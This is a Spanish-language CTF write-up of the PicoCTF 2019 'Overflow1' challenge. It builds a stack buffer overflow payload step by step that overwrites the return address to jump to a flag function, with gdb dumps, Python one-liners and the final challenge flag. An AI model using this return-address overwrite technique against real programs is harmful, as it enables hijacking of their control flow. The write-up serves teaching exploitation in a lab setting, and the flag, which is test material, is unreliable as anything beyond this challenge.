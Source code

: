 ```yaml
---
layout      : post
title       : "PicoCTF2019 - Overflow1"
author      : lanz
image       : https://byte-off.com/wp-content/uploads/2017/04/PicoHeader-825x510.jpg
category    : [ ctf ]
tags        : [ buffer-overflow ]
---
```

Overflow pa toda la familia, nos moveremos a la función que contiene la flag.

> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://raw.githubusercontent.com/lanzt/blog/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln)? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://raw.githubusercontent.com/lanzt/blog/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

### Spanish writeup

El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos:

```bash
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```

Veamos que hace el programa:

```bash
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```

Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado. Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://raw.githubusercontent.com/lanzt/blog/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```

Algunos detalles de assembly antes de seguir:

| Registro | Arquitectura | Descripción |
| :------: | :----------: | :---------- |
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | Instruction pointer register |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | Base pointer register |

Siguiendo con el fuente, nos encontramos con un **buffer de 64**, haciendo la prueba de fuego:

```bash
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```

Vemos que no pasa nada, ya que los siguientes `4 bits` guardaran la data que tenga el registro `ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `eip`).

* Lo explica [Dhaval Kapil en su brutal articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/).

Sumaremos los **4 bytes del `eip`** y los **4 bytes del `ebp`**, se los agregamos a los **64 del buffer**:

```bash
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```

Obtenemos el overflow, tamos bien.

Saquemos la direccion en memoria de la función `flag`. Lo podemos hacer con `gdb`, `objdump`, `ida`.. Usa el de preferencia.

```bash
$ gdb ./vuln
info functions
...
0x080485e6  flag
...
```

Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian).

Esto decidirá como va a leer nuestro porcesador el programa. Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

* Ejemplo: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`.

```bash
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```

**¿Por que habrá salido dos veces la instrucción?**

```bash
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```

Continuamos...

```bash
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```

Aún no hemos llegado a la dirección de la función `flag`

```bash
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```

Si intentamos `"A"*73` vemos esto:

```bash
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```

**Hemos cambiado el registro que direcciona!!**

Why?

> Sencillamente son los **4 bytes** que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.

```bash
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

```bash
Woah, were jumping to 0x80485e6 !
```

Y ahí lo tenemos, estamos en la dirección de la función `flag`.

Si lo corremos en el servidor remoto de picoCTF:

```bash
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```

<h3>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}</h3>

Tenemos la flag (: Y hemos corrompido el flujo del programa.